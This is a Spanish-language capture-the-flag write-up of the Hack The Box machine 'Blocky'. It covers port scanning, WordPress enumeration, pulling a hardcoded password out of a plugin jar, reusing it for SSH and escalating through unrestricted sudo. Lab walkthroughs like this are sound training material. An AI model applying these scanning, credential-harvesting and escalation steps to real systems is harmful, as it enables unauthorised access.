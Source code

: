 # Blocky

<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      <img src="portadas/Blocky.png" alt="Blocky" style="max-width:320px; width:100%; height:auto;"/>
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>WordPress Enumeration</li>
        <li>Information Leakage</li>
        <li>Analyzing a jar file - JD-Gui +SSH Access</li>
        <li>Abusing Sudoers Privilege</li>
      </ul>
    </td>
  </tr>
</table>

## Enumeración basica 

Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.37 -oG allports
```

```shell
PORT   STATE SERVICE REASON
PORT      STATE SERVICE   REASON
21/tcp    open  ftp       syn-ack ttl 63
22/tcp    open  ssh       syn-ack ttl 63
80/tcp    open  http      syn-ack ttl 63
25565/tcp open  minecraft syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguientes puertos encontrados:

```shell
nmap -sCV -p21,22,80,25565 10.10.10.245 -oN targeted
```

```shell
PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-generator: WordPress 4.8
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Se puede apreciar que la versión de OpenSSH es vulnerable a la enumeración de usuarios sin embargo a priori no tenemos ningún usuario con el que probar.

## Enumeración de directorios 

Primero examinamos que es lo que contiene la página, podemos ver que nos encontramos ante un `Wordpress` 

```shell
whatweb http://10.10.10.37
http://10.10.10.37 [302 Found] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.37], RedirectLocation[http://blocky.htb], Title[302 Found]

http://blocky.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.37], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[BlockyCraft &#8211; Under Construction!], UncommonHeaders[link], WordPress[4.8]

```

Usando WFUZZ vamos a enumerar los diferentes directorios interesantes donde nos podemos encontrar algo.

```shell
wfuzz -c --hc=404,200 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://blocky.htb/FUZZ
```
Esta es la salida que recibimos:

```shell
000000241:   301        9 L      28 W       313 Ch      "wp-content"                                  
000000519:   301        9 L      28 W       310 Ch      "plugins"                                     
000000786:   301        9 L      28 W       314 Ch      "wp-includes"                                 
000001073:   301        9 L      28 W       313 Ch      "javascript"                                  
000000190:   301        9 L      28 W       307 Ch      "wiki"                                        
000007180:   301        9 L      28 W       311 Ch      "wp-admin"                                    
000010825:   301        9 L      28 W       313 Ch      "phpmyadmin"
```
Examinando los directorios nos encontramos con un panel de login de wordpress por lo tanto vamos a intentar comprobar si podemos enumerar algún usuario válido.

Para ello voy a utilizar `wpscan` es una herramienta que autmatiza la búsqueda pero es muy útil.

```shell
wpscan --url http://blocky.htb --enumerate u
```
Tras el escaneo encontramos un usuario válido `notch`

```shell
[i] User(s) Identified:
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```
Tras probar diferentes ataque de fuerza bruta con `hydra` con ese usuario y el diccionario `rockyou.txt`
no encontramos ninguna contraseña válida por lo tanto no puede ser por ahí.

## Investigamos los demás directorios /plugins

Tras investigar otros directorios encuentro en el directorio plugins dos ficheros que me puedo descargar.

![alt text](Imagenes/Blocky1.png)

Nos lo descargamos y probamos a ejecutarlo y ver que contiene.Si abrimos el archivo `BlockyCore.jar` utilizando la herramienta `jd-gui` nos encontramos con un fichero muy interesante.
```shell
js-gui BlockyCore.jar
```
```java 
package com.myfirstplugin;
public class BlockyCore {
  public String sqlHost = "localhost";
  public String sqlUser = "root";
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
  public void onServerStart() {}
  public void onServerStop() {}
  public void onPlayerJoin() {
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
  }
  public void sendMessage(String username, String message) {}
}
```
Contiene un usuario y una contraseña de una base de datos, posiblemente del `phpmyadmin`

```shell
user:root
passwd:8YsqfCTnvxAUeduzjNSXe22
```

Efectivamente es la contraseña de la base de datos , cuando entramos nos escontramos con varias tablas y una de `users` con un usuario:

```shell
user:root
passwd:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/
```
## Intentando crackear el hash

Utilizando la herramienta `hashid` podemos identificar el tipo de hash para posteriormente intentar romperlo con `hashcat`

```shell
hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
sin embargo vemos como no nos devuleve ningún resultado.

## Intrusión ssh

Otra opción es intentar acceder al servicio ssh con esta contraseña proporcionada tanto con `root` como con `notch`.

```shell
ssh notch@10.10.10.37
```
Vemos que podemos acceder por ssh usando las credenciales anteriores.

## Escalada de privilegios 

Para la escalada de privilegios hacemos el análisis habitual primero compruebo si puedo usar algún comando con sudo desde el usuario que estoy.

```shell
sudo -l 
```
```shell
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Podemos ejecutar cualquier comando con `sudo` por lo tanto la escalada es tan fácil como ejecutar el siguiente comando:

```shell
sudo -u root bash
```












